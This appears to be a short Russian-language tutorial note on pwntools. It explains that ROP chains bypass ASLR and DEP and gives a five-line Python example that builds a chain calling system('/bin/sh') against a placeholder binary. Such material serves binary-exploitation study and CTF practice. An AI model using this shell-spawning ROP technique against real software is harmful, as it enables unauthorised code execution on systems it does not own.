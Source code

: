 
> [!important] 
> Pwntools предлагает набор инструментов для создания `ROP-цепочек`, которые позволяют `обойти защиту ASLR и DEP`, м***анипулируя адресами возврата и выполняя инструкции из различных частей программы***. Это полезно для эксплуатации программ с защищенной памятью.

```python
from pwn import *
elf = ELF('./vulnerable_app')
rop = ROP(elf)
rop.system('/bin/sh')
print(rop.chain())  # Вывод ROP-цепочки для вызова /bin/sh
```
